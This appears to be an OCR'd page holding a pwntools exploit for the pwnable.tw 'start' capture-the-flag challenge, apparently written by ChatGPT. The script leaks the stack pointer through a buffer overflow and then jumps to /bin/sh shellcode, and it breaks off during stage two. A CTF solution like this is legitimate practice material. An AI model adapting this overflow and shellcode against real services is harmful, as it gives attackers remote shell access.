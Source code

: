 ```python
leaked = p.recv()
esp = u32(leaked[:4])

log.success(f"Found ESP at: 0x{esp:08x}")

offset = 20
payload_stage2  = padding + p32(esp + offset) + shellcode

p.send(payload_stage2)

p.interactive()
```

START OF THE CHATGPT

```python
#!/usr/bin/env python3
from pwn import *

# Tell Pwntools we’re dealing with a 32-bit Linux binary
context(os='linux', arch='i386')

# Hard-coded shellcode that executes /bin/sh via execve.
# (Alternatively: asm(shellcraft.i386.linux.sh()))
shellcode = b"\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x31\xd2\x31\xc9\x31\xd2\x89\xe3\xb0\x0b\xcd\x80\x30\xc0\xfe\xc0\xcd\x80"

# Connect to the remote service
p = remote('chall.pwnable.tw', 10000)

# The program prints "Let's start the CTF:" before calling read()
prompt = p.recvuntil(b'CTF:')
log.info(f"Received prompt: {prompt}")

# We know the vulnerable buffer is 20 bytes long.
# We'll fill it up (padding) and then overwrite EIP.
padding = b'A' * 20

#
# ──[ Stage 1: Leak Stack Pointer ]──
#
# We overwrite EIP with 0x08048087:
#   - This "gadget" does:  mov ecx, esp; mov dl, 0x14; mov bl,1; mov al,4; int 0x80
#   - Which essentially does: write(1, ESP, 0x14)
#   - This writes 20 bytes from our own stack back to us, leaking the first 4 as the stack pointer.
#
payload_stage1 = padding + p32(0x08048087)

# Send the first stage. Pwntools won't close the connection; the server's read() is still the same single call.
p.send(payload_stage1)

# Read the leaked 20 bytes. The first 4 bytes is the actual ESP value.
leaked = p.recv()
esp = u32(leaked[:4])
log.success(f"Found ESP at: 0x{esp:08x}")

#
# ──[ Stage 2: Jump to Shellcode ]──
#
# We again overflow the 20-byte buffer, but this time we place a new EIP that points to our shellcode.
#
offset = 20
```